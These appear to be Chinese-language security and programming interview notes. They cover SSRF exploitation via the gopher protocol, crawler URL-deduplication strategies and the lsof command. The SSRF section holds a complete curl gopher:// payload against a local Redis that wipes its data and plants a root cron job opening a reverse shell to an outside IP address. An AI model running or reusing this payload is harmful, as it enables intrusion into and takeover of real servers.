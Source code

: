 ------

### ssrf拿shell

curl一键反弹Bash

```bash
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```

利用gopher协议反弹shell

gopher是一个信息查找系统，将Internet上的文件组织成某种索引。WWW前的只要索引工具，tcp70端口

gopher协议格式：

```
URL:gopher://<host>:<port>/<gopher-path>_TCP数据流
```

换行URL编码%0d%0a

gopher发出的第一个字符没有被接受

------

Python 多进程在多线程循环执行10次subprocess会什么问题

Python 爬虫怎么抓起on事件 遇到close或者document.herf=""怎么办

### 爬虫去重策略

访问过的URL保存到数据库中	效率低

访问过的URL保存到set中，O(1)就可以查询9G	内存要求高

URL经过MD5编码保存到set	降低内存，scripy就是这种方法

bitmap，将访问过的URL映射到某一位	不太精准，冲突

- 一个URL使用MD5生成一个4字节的MD5码，放入bitmap

bloomfilter对bitmap过滤，多重hash函数降低冲突

------

### 怎么看一个进程调用什么文件？Linux

lsof

lsof -p xx 通过进程号

------

### Linux密码文件
